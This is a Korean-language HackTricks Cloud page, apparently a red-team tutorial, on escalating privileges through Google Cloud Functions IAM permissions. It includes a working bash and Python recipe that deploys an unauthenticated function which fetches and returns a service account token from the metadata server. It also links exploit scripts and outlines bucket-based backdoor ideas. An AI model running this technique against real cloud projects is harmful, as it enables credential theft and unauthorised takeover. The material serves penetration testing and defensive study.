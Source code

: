 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions에 대한 추가 정보:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **임의의 (악의적인) 코드를 가진 새로운 Cloud Function을 생성하고 이를 Service Account에 할당할 수 있습니다**. 그런 다음 메타데이터에서 Service Account 토큰을 유출하여 권한을 상승시킬 수 있습니다.\
함수를 트리거하기 위해 일부 권한이 필요할 수 있습니다.

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)와 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)에서 찾을 수 있으며, 미리 빌드된 .zip 파일은 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)에서 찾을 수 있습니다.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **Function의 코드를 수정하고 심지어 연결된 서비스 계정을 수정하여 토큰을 유출할 수 있습니다**.

{% hint style="danger" %}
Cloud functions를 배포하려면 기본 컴퓨트 서비스 계정 또는 이미지를 빌드하는 데 사용되는 서비스 계정에 대한 actAs 권한도 필요합니다.
{% endhint %}

버전 1 cloudfunctions에 대한 `.call` 권한이나 함수를 트리거하기 위한 `role/run.invoker` 역할과 같은 추가 권한이 필요할 수 있습니다.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
`Permission 'run.services.setIamPolicy' denied on resource...` 오류가 발생하는 경우, `--allow-unauthenticated` 매개변수를 사용하고 있으며 이에 대한 충분한 권한이 없기 때문입니다.
{% endhint %}

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py)에서 찾을 수 있습니다.

### `cloudfunctions.functions.sourceCodeSet`

이 권한을 사용하면 **함수 버킷에 파일을 업로드할 수 있는 서명된 URL을 얻을 수 있습니다(하지만 함수의 코드는 변경되지 않으며, 여전히 업데이트해야 합니다)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

공격자의 관점에서 이 권한만으로 얼마나 유용할지는 잘 모르겠지만, 알아두면 좋습니다.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

이전의 **`.update`** 또는 **`.create`** 권한 중 하나를 부여하여 권한 상승을 할 수 있습니다.

### `cloudfunctions.functions.update`

**`cloudfunctions`** 권한만 가지고 **`iam.serviceAccounts.actAs`** 권한이 없으면 함수를 업데이트할 수 없으므로, 이것은 유효한 권한 상승이 아닙니다.

### 버킷에 대한 읽기 및 쓰기 접근

버킷에 대한 읽기 및 쓰기 접근 권한이 있다면 코드의 변경 사항을 모니터링할 수 있으며, 버킷에서 **업데이트가 발생할 때마다 새로운 코드를 자신의 코드로 업데이트할 수 있습니다.** 그러면 제출된 백도어 코드로 새로운 버전의 Cloud Function이 실행됩니다.

공격에 대한 자세한 내용은 다음에서 확인할 수 있습니다:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

그러나, 이 방법을 사용하여 제3자의 Cloud Functions를 사전 침해할 수는 없습니다. 왜냐하면 자신의 계정에 버킷을 생성하고 외부 프로젝트가 그 위에 쓸 수 있도록 공개 권한을 부여하면 다음과 같은 오류가 발생하기 때문입니다:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
그러나, 이는 DoS 공격에 사용될 수 있습니다.
{% endhint %}

### 아티팩트 레지스트리에 대한 읽기 및 쓰기 접근

Cloud Function이 생성되면 새로운 도커 이미지가 프로젝트의 아티팩트 레지스트리에 푸시됩니다. 나는 새로운 이미지로 이미지를 수정하려고 시도했지만, 현재 이미지를 삭제하고 `cache` 이미지를 삭제해도 아무런 변화가 없었고, Cloud Function은 계속 작동했습니다. 따라서, 아마도 **버킷과 같은 경쟁 조건 공격을 악용할 수 있을지도 모릅니다**. 그러나 **저장된 이미지를 수정하는 것만으로는 Cloud Function을 침해할 수 없습니다.**

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
